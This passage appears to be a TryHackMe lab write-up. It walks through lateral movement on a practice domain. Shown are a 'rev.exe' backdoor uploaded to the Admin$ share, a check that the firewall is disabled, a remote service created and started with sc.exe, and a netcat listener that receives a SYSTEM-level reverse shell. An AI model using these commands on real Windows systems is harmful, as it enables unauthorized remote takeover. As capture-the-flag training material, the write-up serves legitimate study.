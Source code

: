 Make sure backdoor is uploaded

```bash
za\t1_leonard.summers@THMJMP2 C:\Users\t1_leonard.summers>dir \\thmiis.za.tryhackme.com\Admin$\Temp
 Volume in drive \\thmiis.za.tryhackme.com\Admin$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmiis.za.tryhackme.com\Admin$\Temp

07/03/2023  01:39 PM    <DIR>          .
07/03/2023  01:39 PM    <DIR>          ..
...
07/03/2023  01:39 PM            15,872 rev.exe
07/03/2023  12:23 PM                98 silconfig.log
06/22/2022  04:04 PM             1,702 WERA898.tmp.WERDataCollectionStatus.txt
06/22/2022  04:04 PM           142,844 WERBAFB.tmp.appcompat.txt
              12 File(s)        240,136 bytes
               7 Dir(s)  46,547,484,672 bytes free
```

Make sure firewall is disabled on `THMJMP2` to ensure listening on port `1111` works

```bash
za\t1_leonard.summers@THMJMP2 C:\Users\t1_leonard.summers>netsh firewall show state

Firewall status:
-------------------------------------------------------------------
Profile                           = Domain
Operational mode                  = Disable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Disable
Group policy version              = Windows Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
No ports are currently open on all network interfaces.
```

Create a service and start on `thmiis.za.tryhackme.com`

```bash
sc.exe \\thmiis.za.tryhackme.com create BackDoorService binPath= "%windir%\Temp\rev.exe" start= auto
sc.exe \\thmiis.za.tryhackme.com start BackDoorService
```

Reverse Shell

```bash
┌──(kali㉿kali)-[~/thm/lateralmovementandpivoting/www]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37294
Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>C:\Users\t1_leonard.summers\Desktop\flag.exe
C:\Users\t1_leonard.summers\Desktop\flag.exe
THM{MOVING_WITH_SERVICES}
```
